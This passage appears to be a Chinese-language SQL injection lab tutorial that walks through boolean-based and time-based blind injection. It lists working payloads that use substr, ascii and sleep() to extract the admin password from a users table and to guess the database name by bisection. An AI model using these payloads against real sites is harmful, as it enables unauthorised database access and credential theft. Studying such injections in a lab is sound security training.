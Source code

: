 admin 密码的第一位在 a~m 之间吗？

```text

1' and ascii(substr((select password from users where user = 'admin' limit 1),1,1)) >= 97 and ascii(substr((select password from users where user = 'admin' limit 1),1,1)) <= 109 #
```

...

后续过程略。

还可以使用**基于时间的盲注**：

1. 判断是否存在注入，注入是字符型还是数字型

```text

输入1’ and sleep(5) #，感觉到明显延迟；



输入1 and sleep(5) #，没有延迟；
```

说明存在字符型的基于时间的盲注。

2. 猜解当前数据库名

首先猜解数据名的长度：

```text

1’ and if(length(database())=1,sleep(5),1) # 没有延迟



1’ and if(length(database())=2,sleep(5),1) # 没有延迟



1’ and if(length(database())=3,sleep(5),1) # 没有延迟



1’ and if(length(database())=4,sleep(5),1) # 明显延迟
```

说明数据库名长度为4个字符。

接着采用二分法猜解数据库名：

```text

1’ and if(ascii(substr(database(),1,1))>97,sleep(5),1)# 明显延迟



…



1’ and if(ascii(substr(database(),1,1))<100,sleep(5),1)# 没有延迟



1’ and if(ascii(substr(database(),1,1))>100,sleep(5),1)# 没有延迟
```

